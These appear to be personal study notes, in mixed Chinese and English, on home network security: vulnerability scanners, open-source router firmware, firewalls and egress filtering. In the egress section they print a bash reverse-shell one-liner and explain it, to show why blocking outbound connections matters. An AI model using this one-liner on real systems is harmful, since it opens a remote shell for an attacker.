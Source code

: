 https://openvas.org/index.html

Another tool (OpenVAS is based on an older version of Nessus):  
NessusHome  
https://www.tenable.com/products/nessus-home


Qualys和OpenVAS 是成熟的商業產品，openvas不是。在給予SSH權限掃描漏洞時可能擾亂設備配置。
通常情況下會希望禁止SSH到達ROOT權限。

# Router firmware
https://en.wikipedia.org/wiki/List_of_router_firmware_projects  

找到想要用的open source firmware。使用router web頁面(manufacturer提供)或console來update firmware。  
更新firmware務必小心，確認firmware可用。造成損毀無法求償。先檢查whether firmware support.
e.g. OpenWRT(good), Gargoyle, DD-WRT(good), LibreWRT(libreCMC)-(handful of devices).

customer firmware - real time network monitoring, VLANs network isolation, open VPN, client open VPN server.  
It doesn't support as many routers, but it does support most of the common home routers.
These can use SSH login router.


## firewall
firewall : pfSense  

host-based, network-based and virtual firewalls.
防火牆用於拒絕流量根據定的rule (called `access control list`). 大部分作用於 layer 3/4 (network/transport layer) 根據 port, protocol, address.

advence firewall  
advanced firewalls work at the application layer to do deep packet inspection or dpi.
Generally dedicated hardware firewalls.
擁有protocol and port-based rules. 例如允許HTTPS on 443 再加上 封包檢查
![alt text](firewallRule.PNG "firewallRule")
this example, look at the TLS handshake to verify it is HTTPS,
確定這包是HTTPS，而不是SSH或TOR試圖潛行過此443 port。
非application layer的防火牆無法做到。

host-based firewall.  代表主機OS自帶的防火牆，windows firewall, linux ip table。
對於家用router，因為有NAT外部流量不會直接溝通到host devices，(但在公開WIFI時NAT不保證保護，此時host-based firewall就很重要)，預設上host-based firewall 應該拒絕所有外部流量。

#### Egress filtering
防火牆也能用於阻擋出站連接(outbound connections)，避免VPN或malware洩漏或控制。
對於家用網路Egress filtering很用有處，惡意軟體在操控或洩漏需要RAT(remote access Trojan-遠端遙控)/reverse shell/reverse connection，

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet  
reverse shell: 
$bash -i >& /dev/tcp/10.0.0.1/8080 0>&1  
* bash -i : interactive Bash shell, allowing input and output interactions with the user  
* \>& /dev/tcp/10.0.0.1/8080 : redirects both the standard output (stdout) and standard error (stderr) streams to a TCP connection  (這邊的&代表stdout and stderr)
* 0>&1 :  This part redirects the standard input (stdin) stream to the standard output stream。代表input的內容會是stdout，stdout同時是tcp來的內容。
